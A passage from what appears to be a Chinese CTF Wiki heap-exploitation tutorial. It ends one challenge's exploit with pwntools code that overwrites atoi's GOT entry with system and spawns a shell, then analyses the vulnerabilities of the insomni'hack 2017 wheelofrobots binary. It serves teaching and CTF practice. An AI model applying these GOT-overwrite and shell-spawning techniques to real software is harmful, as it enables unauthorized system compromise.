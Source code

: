 ```python
# overwrite the atoi got with systemaddr
content = p64(system_addr)
editnote(0, 1, content)
```

由於此時 ptr[0] 的地址 got 表的地址，所以我們可以直接修改該 note，覆蓋爲 system 地址。

#### get shell

```python
# get shell
sh.recvuntil('option--->>')
sh.sendline('/bin/sh')
sh.interactive()
```

此時如果我們再調用 atoi ，其實調用的就是 system 函數，所以就可以拿到shell了。

## 2017 insomni'hack wheelofrobots
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2017_insomni'hack_wheelofrobots)

### 基本信息

```shell
➜  2017_insomni'hack_wheelofrobots git:(master) file wheelofrobots
wheelofrobots: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=48a9cceeb7cf8874bc05ccf7a4657427fa4e2d78, stripped
➜  2017_insomni'hack_wheelofrobots git:(master) checksec wheelofrobots
[*] "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2017_insomni'hack_wheelofrobots/wheelofrobots"
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

動態鏈接64位，主要開啓了 canary 保護與 nx 保護。

### 基本功能

大概分析程序，可以得知，這是一個配置機器人輪子的遊戲，機器人一共需要添加 3 個輪子。

程序非常依賴的一個功能是讀取整數，該函數read_num是讀取指定的長度，將其轉化爲 int 類型的數字。

具體功能如下

- 添加輪子，一共有 6 個輪子可以選擇。選擇輪子時使用函數是read_num，然而該函數在讀取的時候`read_num((char *)&choice, 5uLL);` 讀取的長度是 5 個字節，恰好覆蓋了 bender_inuse 的最低字節，即構成了 off-by-one 漏洞。與此同時，在添加 Destructor 輪子的時候，並沒有進行大小檢測。如果讀取的數爲負數，那麼在申請`calloc(1uLL, 20 * v5);` 時就可能導致 `20*v5` 溢出，但與此同時， `destructor_size = v5`  仍然會很大。
- 移除輪子，直接將相應輪子移除，但是並沒有將其對應的指針設置爲 NULL ，其對應的大小也沒有清空。
- 修改輪子名字，這個是根據當時申請的輪子的大小空間來讀取數據。之前我們已經說過 destructor 輪子讀取大小時，並沒有檢測負數的情況，所以在進行如下操作時 `result = read(0, destructor, 20 * destructor_size);` ，存在幾乎任意長度溢出的漏洞。
- 啓動機器人，在啓動的時候會隨機地輸出一些輪子的名稱，這個是我們難以控制的。
